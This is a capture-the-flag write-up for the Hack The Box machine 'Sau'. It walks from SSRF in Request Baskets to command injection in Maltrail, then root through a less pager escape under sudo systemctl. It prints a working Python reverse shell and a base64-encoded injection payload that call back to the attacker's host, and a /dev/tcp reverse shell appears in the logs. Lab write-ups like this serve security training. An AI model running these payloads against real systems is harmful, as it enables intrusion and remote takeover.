

---
tags:
  - linux
---
# HTB: [Sau](https://app.hackthebox.com/machines/Sau)

## Enumeration

```console
$ nmap -n -Pn -sC -sV $t                                                    
[...]
Not shown: 997 closed tcp ports (conn-refused)                            
PORT      STATE    SERVICE VERSION                                          
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                              
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)            
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)           
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)         
80/tcp    filtered http                                                     
55555/tcp open     unknown                                                  
| fingerprint-strings:                                                      
|   FourOhFourRequest:                                                      
|     HTTP/1.0 400 Bad Request                                              
|     Content-Type: text/plain; charset=utf-8                             
|     X-Content-Type-Options: nosniff                                       
|     Date: Tue, 19 Sep 2023 20:19:33 GMT                                 
|     Content-Length: 75                                                    
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request                                              
|     Content-Type: text/plain; charset=utf-8          
|     Connection: close                                                     
|     Request
|   GetRequest:           
|     HTTP/1.0 302 Found             
|     Content-Type: text/html; charset=utf-8
|     Location: /web      
|     Date: Tue, 19 Sep 2023 20:19:06 GMT
|     Content-Length: 27             
|     href="/web">Found</a>.                                                                                                                             
|   HTTPOptions:                                                                                                                                         
|     HTTP/1.0 200 OK                                                       
|     Allow: GET, OPTIONS
|     Date: Tue, 19 Sep 2023 20:19:06 GMT
|_    Content-Length: 0
```

Here's the service running on port 55555:



## Exploitation

The target is running Request Baskets version 1.2.1, an application that allows recording of `http` requests. It is vulnerable to a SSRF. Using [this exploit](https://packetstormsecurity.com/files/174128/Request-Baskets-1.2.1-Server-Side-Request-Forgery.html) it's possible to redirect traffic to `localhost` on the target.

```console
$ ./baskets.sh http://10.10.11.224:55555/ http://127.0.0.1
> Creating the "yedwvo" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/yedwvo now makes the server request to http://127.0.0.1.
> Authorization: vgVM6FAalG-n-S5TSPzW-9hOx9s56irclWrBveumT4Vb
```

On `localhost`, the target is running a vulnerable service `Maltrail` version 0.53. This service doesn't properly sanitize the `username` parameter, allowing shellcode to be executed on the target.

Plaintext shellcode:

```console
$ cat shellcode
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

```

Encoded with `base64`:

```console
$ echo "echo\${IFS}\"$(cat shellcode | base64 -w0)\"|base64\${IFS}-d|sh"
echo${IFS}"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjM1Iiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJwo="|base64${IFS}-d|sh
```

And then the exploit:

```console
$ curl 'http://10.10.11.224:55555/yedwvo/login' --data 'username=;`echo${IFS}"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjM1Iiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJwo="|base64${IFS}-d|sh`'
```

## Privilege Escalation

The user has `sudo` privileges to run a specific `systemctrl` invocation:

```console
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Using the `systemctl` command via `sudo` triggers a pager (`less`), from which it's trivial to escape to a shell:

```console
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Tue 2023-09-19 17:40:31 UTC; 3h 36min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 892 (python3)
      Tasks: 16 (limit: 4662)
     Memory: 22.8M
     CGroup: /system.slice/trail.service
             ├─ 892 /usr/bin/python3 server.py
             ├─1284 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed password for ;`ping${IFS}10.10.14.35` from 127.0.0.1 port 40014"
             ├─1285 ping 10.10.14.35
             ├─1310 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed password for ;`ping${IFS}10.10.14.35` from 127.0.0.1 port 59910"
             ├─1311 ping 10.10.14.35
             ├─1328 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed password for ;`ping${IFS}10.10.14.35` from 127.0.0.1 port 41182"
             ├─1329 ping 10.10.14.35
             ├─1339 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed password for ;`echo${IFS}"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNz>
             ├─1340 /bin/sh -c logger -p auth.info -t "maltrail[892]" "Failed password for ;`echo${IFS}"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNz>
             ├─1343 sh
             ├─1344 python3 -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.35",443));os.dup2(s.f>
             └─1345 sh

Sep 19 17:40:31 sau systemd[1]: Started Maltrail. Server of malicious traffic detection system.
Sep 19 20:48:30 sau maltrail[1244]: Failed password for None from 127.0.0.1 port 37000
Sep 19 20:48:55 sau maltrail[1249]: Failed password for None from 127.0.0.1 port 39516
Sep 19 20:49:12 sau maltrail[1255]: Failed password for None from 127.0.0.1 port 53168
Sep 19 20:49:57 sau maltrail[1259]: Failed password for None from 127.0.0.1 port 36300
Sep 19 20:50:22 sau maltrail[1262]: Failed password for admin from 127.0.0.1 port 35520
Sep 19 20:50:50 sau maltrail[1266]: Failed password for None from 127.0.0.1 port 37142
Sep 19 21:01:20 sau maltrail[1281]: Failed password for ;uid=1001(puma) gid=1001(puma) groups=1001(puma) from 127.0.0.1 port 37508
Sep 19 21:03:37 sau maltrail[1292]: Failed password for ; from 127.0.0.1 port 50160
Sep 19 21:12:19 sau maltrail[1337]: Failed password for ;sh -i >& /dev/tcp/10.10.14.35/443 0 from 127.0.0.1 port 39984
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
31822c[...]
```
